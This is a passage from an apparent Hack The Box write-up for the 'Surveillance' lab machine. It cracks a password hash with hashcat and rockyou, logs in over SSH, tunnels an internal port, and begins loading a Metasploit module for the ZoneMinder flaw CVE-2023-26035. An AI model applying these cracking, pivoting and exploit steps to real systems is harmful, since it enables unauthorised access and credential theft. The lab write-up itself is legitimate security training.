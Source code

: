 ```markdown
[+] Haval-256 
[+] GOST R 34.11-94 
[+] GOST CryptoPro S-Box 
[+] SHA3-256 
[+] Skein-256 
[+] Skein-512(256)
```
This can be cracked with `hashcat`
```markdown
hashcat -m 1400 -a 0 -d 1 hash.txt .\rockyou.txt
39ed84b22ddc63ab3725a1820aaa7f73a8f3f10d0848123562c9f35c675770ec:starcraft122490
```
Finally, just SSH in as `matthew`, using password `starcraft122490`
```markdown
ssh matthew@surveillance.htb
```

### PHASE 3: Root
Begin from an SSH shell for user `matthew` and list local open connections.
```markdown
netstat -lnput
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.1:8080          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -                   
udp        0      0 127.0.0.53:53           0.0.0.0:*                           -                   
udp        0      0 0.0.0.0:68              0.0.0.0:*                           -
```
Forward internal port 8080 to kali 8085 and browse the site with Firefox.
```markdwon
ssh -f -N -L 8085:127.0.0.1:8080 matthew@surveillance.htb
```
It seems a ZoneMinder server is running on host's port 8080. A login portal appears.

![surveillance2](https://github.com/g1vi/Hack-the-box-write-ups/assets/120142960/e62f9973-2e7d-417c-a80f-c9ba54c31a28)

Looking for ZoneMinder vulnerabilities, we discover this one https://www.cvedetails.com/cve/CVE-2023-26035/<br>
<br>
We also search for a POC, but nothing useful is found. However, we find a recently published Metasploit module https://www.rapid7.com/blog/post/2023/11/17/metasploit-weekly-wrap-up-36/<br>
<br>
You may need to update your framework to install this module, since it has been published very recently.
```markdown
sudo apt install -y --only-upgrade metasploit-framework
```
Once installed, just start the framework, load the module and configure it properly. For this, remember that, with the local port forwarding in place, now the victim's 8080 port is accessible from kali's localhost:8085.
```markdown
use unix/webapp/zoneminder_snapshots
set rhosts 0.0.0.0
```